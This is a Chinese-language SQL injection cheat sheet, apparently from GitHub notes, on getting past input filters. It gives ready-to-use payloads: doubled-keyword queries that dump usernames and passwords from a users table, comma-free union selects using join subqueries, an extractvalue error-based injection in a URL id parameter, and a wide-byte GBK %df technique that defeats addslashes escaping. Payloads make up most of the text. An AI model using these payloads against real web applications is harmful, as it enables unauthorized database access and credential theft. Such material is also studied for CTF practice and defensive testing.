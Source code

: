 ```php
select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema=database())aandnd(table_name='users')
select(group_concat(username,'~',passwoorrd))from(users)
注意information由于or被过滤所以要双写，多用括号来替换掉空格，同时注意or和and的复写
4.使用块注释符/**/
```

**环境不一样可能导致方法不一样**

## 逗号过滤绕过

```mysql
需求：查询users表用户的email都是多少
select u.*,e.*
from users u,emails e
where u.id=e.id;
或使用join
select u.*,e.*
from users u JOIN emails e on e.id=u.id
```

```mysql
union select 1,2,3
等价于
union select * from (select 1)a join (select 2)b join (select 3)c;
```

```mysql
union select * from (select 1)a join (select 2)b join (select group_concat(table_name) from information_schema.tables where table_schema=database())c;
```

## union及select过滤绕过

1. 尝试大小写绕过

2. 尝试复写单词绕过

3. 尝试报错注入

   ```mysql
   ?id=0'||extractvalue(1,concat('~',(database())))||'1'='1
   ```

## 宽字节注入

函数addslashes()在指定的预定义字符前添加反斜杠。这些字符是单引号、双引号、反斜线与NULL

当输入1’时，addslashes()函数会将’转义，从而无法注入

**使用宽字节注入的前提是要求对方MySQL数据库的编码方式是GBK编码，并且发送请求时声明客户端用的也是GBK编码**

MySQL在使用GBK编码时，会认为两个字符为一个汉字，所以可以使用一些字符，和经过转义过后多出来的 \ 组合成两个字符，变成MySQL数据库不识别的汉字字符，导致对单引号、双引号的转义失败，使其参数闭合。

输入 %df’ ，本来会转义单引号 ’ 为 \' ，但 \ 的编码是%5c，编码位为92，%df的编码位为223，%df%5c符合GBK取值范围（第一个字节129-254，第二个字节64-254），会解析为一个汉字，这样 \ 就会失去应有的作用

